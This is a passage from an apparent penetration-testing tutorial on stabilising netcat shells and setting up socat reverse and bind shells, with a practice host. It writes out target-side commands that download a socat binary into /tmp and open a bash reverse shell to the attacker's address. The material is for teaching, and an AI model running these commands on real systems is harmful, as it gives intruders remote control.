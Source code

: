 The `bind shell` in target machine would have spawned at the `netcat` initiator.
{% capture code %}{% raw %}connect to [<target-ip>] from (UNKNOWN) [<local-ip>] 53588{% endraw %}{% endcapture %} {%include code.html code=code %}

Use `python` to spawn `bash` shell. Background the `netcat` activator to sanitise the `bind shell`.
{% capture code %}{% raw %}python3 -c 'import pty ; pty.spawn("/bin/bash")'
shell@linux-shell-practice:~$ ^Z
[1]+  Stopped                 nc -nv <target-ip> 4444{% endraw %}{% endcapture %} {%include code.html code=code %}

Turn off `echo` in `reverse shell` in attacking machine and foreground it so the `reverse shell` can show the output properly inside `netcat` listener.
{% capture code %}{% raw %}stty raw -echo ; fg{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained. TTY rows and columns can also be set so `vim` or `nano` editor will be aligned according to shell resolution.
{% capture code %}{% raw %}nc -nv <target-ip> 4444
    shell@linux-shell-practice:~$ ^C
    shell@linux-shell-practice:~$ stty rows 34
    shell@linux-shell-practice:~$ stty cols 169
    shell@linux-shell-practice:~${% endraw %}{% endcapture %} {%include code.html code=code %}


### Reverse Socat Shell - Linux

`Socat` can be installed from distribution repo or a standalone binary can be downloaded and used. The links for standalone binaries for linux is [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true){:target="_blank"} and windows is [here](https://sourceforge.net/projects/unix-utils/files/socat/){:target="_blank"}.

`Socat` shell is stabilised and sanitised by default and does not need additional configurations after gaining `shell`.

Create a `socat` listener in attacking machine.
{% capture code %}{% raw %}wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP-L:443 FILE:`tty`,raw,echo=0{% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `reverse shell` from the target.
{% capture code %}{% raw %}wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP:<local-ip>:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained in `socat` listener.
{% capture code %}{% raw %}shell@linux-shell-practice:~$ ^C
shell@linux-shell-practice:~$ exit
logout{% endraw %}{% endcapture %} {%include code.html code=code %}


### Bind Socat Shell - Linux

`Socat` can be installed from distribution repo or a standalone binary can be downloaded and used. The links for standalone binaries for linux is [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true){:target="_blank"} and windows is [here](https://sourceforge.net/projects/unix-utils/files/socat/){:target="_blank"}.
